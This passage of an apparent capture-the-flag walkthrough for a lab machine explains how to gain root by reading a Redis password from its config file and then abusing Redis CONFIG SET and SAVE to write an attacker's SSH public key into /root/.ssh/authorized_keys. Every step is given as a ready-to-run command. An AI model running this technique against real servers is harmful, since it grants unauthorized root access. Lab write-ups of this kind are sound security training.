 The password to log in to the `redis` server is conveniently located in `/etc/redis/6379.conf`.

![0.bty888qayjj](/assets/images/posts/gemini-inc-v2-walkthrough/0.bty888qayjj.png)

With the password, I can proceed to abuse `redis` to write files as `root`. We can write the RSA public key we control to `/root/.ssh/authorized_keys` and gain `root` access through SSH.

Here's how.

1. Generate a SSH keypair with `ssh-keygen`.
2. Copy `id_rsa.pub` to `~/.ssh/public.txt`. Pad the top and bottom with two newlines.
3. Set `~/.ssh/public.txt` as a new `redis` value.
4. Configure `dir` as `/root/.ssh/`.
5. Configure `dbfilename` as `authorized_keys`.
6. Save the configuration.
7. Log in with the RSA private key and enjoy your `root` shell.

***Step 1: Generate a SSH keypair with `ssh-keygen`.***

```
$ ssh-keygen -t rsa -b 2048
```

***Step 2: Copy `id_rsa.pub` to `~/.ssh/public.txt`. Pad the top and bottom with two newlines.***

```
$ echo -e "\n\n" > .ssh/public.txt
$ cat .ssh/id_rsa.pub >> .ssh/public.txt
$ echo -e "\n\n" >> .ssh/public.txt
```

***Step 3: Set `~/.ssh/public.txt` as a new `redis` value.***

```
cat .ssh/public.txt | redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 -x set pub
```

***Step 4: Configure `dir` as `/root/.ssh/`.***

```
$ redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 config set dir "/root/.ssh/"
```

***Step 5: Configure `dbfilename` as `authorized_keys`.***

```
redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 config set dbfilename authorized_keys
```

***Step 6: Save the configuration.***

```
redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 save
```

***Step 7: Log in with the RSA private key and enjoy your `root` shell.***

![0.bwzw8a9z1nd](/assets/images/posts/gemini-inc-v2-walkthrough/0.bwzw8a9z1nd.png)
